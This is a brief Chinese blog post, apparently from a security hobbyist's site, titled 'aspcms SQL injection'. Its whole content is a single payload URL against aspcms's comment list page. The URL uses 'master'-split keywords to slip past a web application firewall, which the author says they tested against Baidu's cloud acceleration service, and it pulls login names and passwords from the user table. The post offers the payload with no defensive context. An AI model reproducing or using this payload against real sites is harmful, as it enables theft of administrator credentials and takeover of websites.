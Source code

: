 ```yaml
---
title: "aspcms SQL 注入"
date: 2018-03-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


亲测过百度云加速

<!--more-->

**payload**

`/plug/comment/commentList.asp?id=0 unmasterion semasterlect top 1 UserID,GroupID,LoginName,Password,now(),null,1frmasterom {prefix}user`